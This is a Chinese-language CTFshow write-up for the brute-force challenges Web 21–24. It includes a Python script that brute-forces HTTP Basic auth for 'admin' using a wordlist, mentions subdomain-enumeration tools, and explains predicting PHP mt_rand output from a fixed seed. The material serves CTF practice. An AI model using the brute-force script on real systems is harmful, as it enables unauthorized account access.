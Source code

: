 # CTFshow 爆破（21-28）

## ??Web 21

**不会写python脚本，插个眼**

```python
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-11-20 19:16:49
# @Last Modified by:   h1xa
# @Last Modified time: 2020-11-20 20:28:42
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

import time
import requests
import base64

url = 'http://41a801fe-a420-47bc-8593-65c3f26b7efa.chall.ctf.show/index.php'

password = []

with open("1.txt", "r") as f:  
	while True:
	    data = f.readline() 
	    if data:
	    	password.append(data)
	    else:
	      break
	    


for p in password:
	strs = 'admin:'+ p[:-1]
	header={
		'Authorization':'Basic {}'.format(base64.b64encode(strs.encode('utf-8')).decode('utf-8'))
	}
	rep =requests.get(url,headers=header)
	time.sleep(0.2)
	if rep.status_code ==200:
		print(rep.text)
		break
```





## Web 22 爆破子域名

Layer子域名挖掘机 或 Oneforall工具





## Web 24 伪随机数

这个题很有意思，代码如下：

```php
<?php
error_reporting(0);

include("flag.php");
if (isset($_GET['r'])) {
    $r = $_GET['r'];
    mt_srand(372619038);
    if (intval($r) === intval(mt_rand())) {
        echo $flag;
    }
} else {
    highlight_file(__FILE__);
    echo system('cat /proc/version');
}
?>
```

**php伪随机数`mt_rand()`函数**

先是mt_srand(372619038)，播种了一个随机数种子，然后比较用户传的GET参数r与否与mt_rand()生成的随机数一样，若一样则输出flag。

逻辑很简单，只要发送的GET请求中的参数与后台生成的随机数一样即可获取flag。

这里存在一个伪随机数漏洞，在php中每一次调用mt_rand()函数，都会检查一下系统有没有播种。（播种为mt_srand()函数完成），当随机种子生成后，后面生成的随机数都会根据这个随机种子生成。所以同一个种子下，随机数的序列是相同的，这就是漏洞点。

上面已经用一个固定数字播种了随机数，mt_srand(372619038)，所以只要在同一的php版本中，复现一下，也用mt_srand(372619038)，播种随机数种子，再用mt_rand()生成随机数，得到的随机数都是一样的

所以第一步，用Burp随便传一个r过去，，查看网络中的响应包，获取靶机php版本，再在自己主机上搭建同样版本的php环境，播种同样的随机数种子，生成的随机数当作参数r的值发送请求，即可获取flag。r值为：url/?r=1155388967

其实这儿用一些在线的php运行平台就可以。

### 官方说明：

mt_scrand(seed)这个函数的意思，是通过分发seed种子，然后种子有了后，靠mt_rand()生成随机 数。 提示：从 PHP 4.2.0 开始，随机数生成器自动播种，因此没有必要使用该函数 因此不需要播种，并且如果设置了 seed参数 生成的随机数就是伪随机数，意思就是每次生成的随机数 是一样的。



